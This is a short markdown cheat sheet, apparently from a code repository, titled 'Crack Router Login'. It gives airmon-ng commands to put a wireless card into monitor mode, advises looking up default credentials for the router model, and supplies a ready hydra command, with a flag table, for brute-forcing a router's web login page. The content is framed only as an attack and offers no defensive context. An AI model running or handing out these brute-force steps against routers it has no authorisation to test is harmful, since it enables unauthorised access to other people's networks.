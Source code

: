 # Crack Router Login

- Your card must be in monitor mode
- You must be on the network

```bash
airmon-ng check kill
airmon-ng start wlan0
```

- Visit http://192.168.XXX.1/ and find the router model
- Google for default credentials

```bash
hydra http://[192.168.0.1]/login.html -e ns -F -V -t 4 -L <USERNAMES FILE> -P <PASSWORDS FILE>
```

| Flag  | Description                               |
| :---- | ----------------------------------------: |
| -e ns | tries null and user name for password too |
| -F    | exit when login is found                  |
| -V    | displays the results in the terminal      |
| -t 4  | number of parallel tasks to run           |